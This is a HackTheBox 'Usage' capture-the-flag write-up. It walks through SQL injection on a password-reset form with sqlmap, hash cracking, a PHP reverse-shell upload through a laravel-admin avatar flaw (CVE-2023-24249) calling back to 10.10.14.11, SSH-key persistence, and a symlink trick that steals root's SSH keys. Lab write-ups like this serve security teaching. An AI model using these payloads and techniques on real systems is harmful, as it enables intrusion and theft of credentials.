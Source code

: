 # HackTheBox - Usage
---

## Initial Enumeration

After starting the machine, we are provided with an IP of 10.10.11.18.

An initial scan `(nmap -p- -Pn --disable-arp-ping --min-rate 300 --stats-every=5s 10.10.11.18)` reveals open ports 22 and 80. A follow-up scan to further enumerate `(sudo nmap -O -sV -p 22,80 10.10.11.18)` provides the following details:

![](img/Usage1.png)

Further research provides no known vulnerabilities for either of these services, nor kernel exploits for the OS.

Attempting to view the web service gets an error, but provides us with the domain of **usage.htb** – adding this to our **/etc/hosts** file enables us to view the following on the web service:

![](img/Usage2.png)

Further fingerprinting on the webservice using _whatweb_ as well as looking through the page source provides the following information:

![](img/Usage3.png)

Unable to find any known vulnerabilities for this technology stack, we take a look at the functionality of the rest of the webpage. Initially we check each field for SQLi in each field in the login fields using a variety of payloads ([very useful set of payloads found here](https://github.com/payloadbox/sql-injection-payload-list)), and find nothing.

Checking for SQLi under the password reset link, however, nets us the following:

![](img/Usage4.png)

Here, we have evidence that the email field in the POST request to **/forget-password** is vulnerable to a blind, time-based SQLi attack. This will prove to be considerably harmful to data confidentiality.

---
## Initial Compromise

We use our browser proxy to save an intercepted POST request, and use it to run an attack using sqlmap `(sqlmap -r ForgotPasswordPOST -p email –level=5)`. This discovers that a time-based blind injection with an eight-clause UNION query is able to enumerate database information. Doing so, we are able to enumerate the entire database. Of particular note is the following, from the **usage_blog.admin_users** table:

![](img/Usage5.png)

We can crack this hash with _johntheripper_ and the _rockyou.txt_ wordlist, getting us the password **whatever1**.

We would not have been able to crack this without significant time and compute resources had a better password policy been enforced.

This allows us to login to the admin dashboard using the **admin** username. From that dashboard, we are presented with a good deal of new information about the technology stack used in this website:

![](img/Usage6.png)

After some investigation, we come across [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) related to the **encore/laravel-admin** package, indicating that we can arbitrarily upload php scripts to the server to attain arbitrary code execution.

We create the following script to give us a remote shell:
```html
<html>
	<body>
		<?PHP system('php -r \'$sock=fsockopen(“10.10.14.11”,1337);exec(“sh <&3 >&3 2>&3”);\''); ?>
	</body>
</html>
```

We save this script with a .jpg extension and then attempt to upload it via the admin area's user avatar upload interface. Capturing this request, we permit it to run, then replay it, adding a “.php” to the end of the file.

![](img/Usage7.png)

Refreshing the upload interface, we now can see that our script has been uploaded.

![](img/Usage8.png)


We now start a netcat listener on our machine `(nc -lvnp 1337)`. By clicking the download link (or navigating to **/uploads/images/script.jpg.php**), we execute our script and can see that we have gained a reverse shell.

![](img/Usage9.png)

Now that we have remote access with the user **dash**, we stabilize our access and gain persistence by adding our public ssh key to the user's **/home/user/.sh/authorized_keys** file. We can now log in to the server as dash with full terminal functionality whenever we like.

---
## Privilege Escalation

Further enumeration shows that there is another user on this machine, **xander**. By sifting through log and configuration files, we find a number of passwords written in plaintext. It is with the password **3nc0d3d_pa$$w0rd** found in **/home/dash/.monitrc** that we are able to log in as xander.


Doing a little bit of investigation into the xander user reveals that, unlike dash, xander has limited access to sudo:

![](img/Usage10.png)

Naturally, anything that we can execute as a superuser merits further investigation. Running the command (without sudo rights, to limit possible damage caused by executing an unknown binary) nets us the following:

![](img/Usage11.png)

We have selected to use the **Project Backup** option as there is nothing in the MySQL database that we do not already have access to, nor do we want to necessarily reset the admin password just yet and possibly cause undo interference with the normal administration of the machine.

The backup option does seem to attempt to create a zip file in **/var/backups**. If running it requires superuser permissions, it is possible some interesting files may end up in that backup. We run the backup again, this time with sudo functionality. We go to the backup, unzip it, and investigate. We do not have permissions to write in the folder where it was made, so we will copy it to xander's home directory and unzip there. When unzipped, we find backups of the contents of **/var/www/html/**. We already had full read/write access to these files as dash. However, since this backup was made with superuser functionality, this gives us an opportunity.

As dash, we go to the **/var/www/html/** directory and, in it, create a symlink to **/root/**. Then, logged back into xander, we run the project backup once again. This time, when unzipped, the project backup contains the contents of the **/root/** folder, complete with .ssh folder, which contains the root user's public and private keys.

![](img/Usage12.png)

From here, we can use the keys to log in to root via ssh from out attacking machine, providing complete control over the server.

![](img/Usage13.png)